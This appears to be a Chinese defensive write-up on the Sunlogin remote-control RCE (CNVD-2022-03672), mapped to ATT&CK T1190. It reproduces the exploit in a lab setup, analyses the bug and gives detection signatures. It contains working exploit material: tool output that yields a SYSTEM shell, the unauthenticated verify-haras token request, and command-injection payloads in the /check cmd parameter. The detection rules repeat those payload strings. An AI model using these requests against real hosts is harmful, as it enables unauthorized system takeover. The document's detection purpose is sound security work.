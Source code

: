 # T1190-CNVD-2022-03672-向日葵RCE漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

上海贝锐信息科技股份有限公司的向日葵远控软件存在远程代码执行漏洞（CNVD-2022-10270/CNVD-2022-03672），影响Windows系统使用的个人版和简约版，攻击者可利用该漏洞获取服务器控制权。

影响版本

```yml
向日葵个人版   for Windows <= 11.0.0.33
向日葵简约版   <= V1.0.1.43315（2021.12
```

## 检测日志

HTTP

## 测试复现

网络上公开工具较多，可自行下载进行本地测试，请勿进行非法测试。

攻击机：kali，10.211.55.35
靶机：win10，10.211.55.31

```bash
┌──(root㉿361)-[/home/liyang]
└─# ./sunrce -h 10.211.55.31 -p 40000-60000 -m 1000
[+] start to scan open port......
10.211.55.31:50340      open |Success discovery the sunrce vulnerability                                                                
10.211.55.31:49666      open |NULL              
10.211.55.31:49669      open |NULL              
10.211.55.31:49665      open |NULL              
10.211.55.31:49668      open |NULL              
10.211.55.31:49664      open |NULL              
10.211.55.31:49667      open |NULL              
10.211.55.31:49670      open |NULL              
SunRce vulnerability scan over                    
# 探测向日葵使用的端口                                   
```

```bash
──(root㉿361)-[/home/liyang]
└─# ./sunrce -h 10.211.55.31 -ps 50340 -shell      
Cmd:whoami
nt authority\system

Cmd:net user

\\ 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
liyang                   WDAGUtilityAccount       
命令运行完毕，但发生一个或多个错误。


Cmd:exit
#漏洞利用环节
```

## 漏洞分析/日志留痕

### 未授权认证

当SunloginCLient.exe在Windows上执行时，会连接远程Oray的服务器，同时也会打开一个大于40000的端口监听外部的连接访问（具体是否从40000往上随即开启端口，这个没有调试，网上是这么说的，我们主要看的是发生利用的代码部分）。

对其中一部分接口，Sunlogin统一对其进行处理。

接着会执行至函数sub_140E21528，分别对不同接口进行不同的处理。在接口/cgi-bin/rpc的Handler处理函数中可以进行未授权认证。

获取action参数值，如果值为verify-haras，即action=verify-haras，那么可以在没有识别码和验证码的情况下认证成功。

成功后返回一个verify_string，作为之后再次访问时Cookie字段中使用的CID值。

```bash
GET /cgi-bin/rpc?action=verify-haras HTTP/1.1
Host: 10.211.55.31:50340
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 87

{"__code":0,"enabled":"1","verify_string":"6onb943qKJoXQGAmr1BKArugFlO9949g","code":0} 
```

### RCE

漏洞发生在接口/check处，当参数cmd的值以ping或者nslookup开头时可以构造命令实现远程命令执行利用。

发送请求时需要在请求头中指定Cookie字段中CID的值为之前/cgi-bin/rpc返回的verify_string值。下面是通过ping拼接的利用请求。

```bash
GET /check?cmd=ping../../../windows/system32/windowspowershell/v1.0/powershell.exe+whoami HTTP/1.1
Host: 10.211.55.31:50340
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: CID=6onb943qKJoXQGAmr1BKArugFlO9949g
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/json
Content-Length: 21

nt authority\system

GET /check?cmd=ping../../../windows/system32/windowspowershell/v1.0/powershell.exe+net+user HTTP/1.1
Host: 10.211.55.31:50340
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: CID=6onb943qKJoXQGAmr1BKArugFlO9949g
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/json
Content-Length: 269


\\ ..........

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
liyang                   WDAGUtilityAccount       
....................................
```

## 监测规则

特征1:

请求数据：GET /cgi-bin/rpc?action=verify-haras，返回数据：verify_string；

特征2:

请求数据：GET /check?cmd=ping../../../windows/system32/windowspowershell/v1.0/powershell.exe

请求数据：GET /check?cmd=ping%20127.0.0.1%20|%20cmd%20/c%20echo%20whoami%00

请求数据：GET /check?cmd=ping../../../SysWOW64/cmd.exe+/c+net+user

主要是针对常见的拼接路径进行监测，返回数据也存在一些特征，可以根据实际情况进行设置高精准匹配。

### 建议

可根据具体常见的路径进行监测。安全设备+运营人员经验，能够达到更好的效果。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Sunlogin RCE漏洞分析和使用

<https://www.1024sou.com/article/742604.html>

向日葵远程命令执行程序分析

<http://www.exp-9.com/post/44.html>
